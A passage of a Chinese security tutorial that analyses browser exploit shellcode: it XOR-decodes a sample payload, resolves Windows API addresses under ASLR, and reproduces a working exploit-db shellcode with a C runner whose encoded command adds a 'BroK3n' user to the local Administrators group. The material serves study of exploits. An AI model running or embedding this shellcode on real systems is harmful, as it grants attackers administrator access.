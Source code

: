 将SC输出，在浏览器中执行一下：

![enter image description here](http://drops.javaweb.org/uploads/images/40dfd6e72229009248dbb5b0cf77b344c4147da9.jpg)

即可拿到解密后的shellcode，简单的看一下，代码中出现了大量的重复内容：E2，而直接将内容Unescape也没有看到像样的明文，这时可以经验得出，这段代码是被XOR加密过的，因此可以在工具中填入密钥e2，然后解开即可看到常量部分，这个就是这段代码想要下载的文件

![enter image description here](http://drops.javaweb.org/uploads/images/40757b1ebcb632faeae5a128ab567caf216d6aa2.jpg)

这段代码的调试放到下章再说，不过并不难，而且这个URL也失效了，所以你也大可参照下一节(V.3)的相关内容，如果觉得一切合适了，可以放心大胆的调试。

V.3 Shellcode 123
=====

最后，简单介绍一下大家可能会比较在意的内容，这也是SHELLCODE编写的一个必备条件之一，即shellcode如何获得函数地址，更甚之，shellcode如何通用化呢？

先说一下如何手动获得一个系统函数的地址。

![enter image description here](http://drops.javaweb.org/uploads/images/5a859ee127586e84124200d85a3711d084766cf3.jpg)

图：`Dependency Walker`显示的`ShellExecuteA`导出函数的偏移量。用该值加上DLL的`Image Base`即可得到本机适用的函数地址（无ASLR情况下）。

![enter image description here](http://drops.javaweb.org/uploads/images/3708bfe3464c53cc855791df533d5a98f32df7f9.jpg)

图：shell32.dll (32bit, 6.1.7601.18762)的Image Base

如上图，无ASLR的环境下，该函数的地址是`0x73800000 + 0x247bcd = 0x73a47bcd`。

![enter image description here](http://drops.javaweb.org/uploads/images/796f3056815c5833eb30923f055d709779175735.jpg)

图：TencentDl.exe (32 bit)中的函数地址和模块起始地址。

`0x75547bcd - 0x247bcd = 0x75300000 =>`该模块当前的Image Base，这个值不同于文件声明的值的原因是开启了ASLR。

可以试验一下，`ShellExecuteExA`的偏移是`0x247b32`，则`0x75300000+0x247b32=0x75547b32`应该是该函数地址，查阅可知确实如此：

![enter image description here](http://drops.javaweb.org/uploads/images/d7dcbe8a8707acd71a9f0a5a8e74f18a4a8e3e5d.jpg)

但是除了上面的ASLR的情况，微软的库函数的地址自己也会随着系统变化、补丁更新等会发生变化，因此，硬编码一个地址必然是不行的，那么作为一个网马，如何才能做到让shellcode获取所需API的地址呢？

让我们参考一下exploit-db.com提供的shellcode (3]：

```
char shellcode[] = "\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
      "\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
      "\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
      "\x34\xaf\x01\xc6\x45\x81\x3e\x57\x69\x6e\x45\x75\xf2\x8b\x7a"
      "\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf"
      "\xfc\x01\xc7\x68\x4b\x33\x6e\x01\x68\x20\x42\x72\x6f\x68\x2f"
      "\x41\x44\x44\x68\x6f\x72\x73\x20\x68\x74\x72\x61\x74\x68\x69"
      "\x6e\x69\x73\x68\x20\x41\x64\x6d\x68\x72\x6f\x75\x70\x68\x63"
      "\x61\x6c\x67\x68\x74\x20\x6c\x6f\x68\x26\x20\x6e\x65\x68\x44"
      "\x44\x20\x26\x68\x6e\x20\x2f\x41\x68\x72\x6f\x4b\x33\x68\x33"
      "\x6e\x20\x42\x68\x42\x72\x6f\x4b\x68\x73\x65\x72\x20\x68\x65"
      "\x74\x20\x75\x68\x2f\x63\x20\x6e\x68\x65\x78\x65\x20\x68\x63"
      "\x6d\x64\x2e\x89\xe5\xfe\x4d\x53\x31\xc0\x50\x55\xff\xd7";

int main(int argc, char **argv){int (*f)();f = (int (*)())shellcode;(int)(*f)();}

```
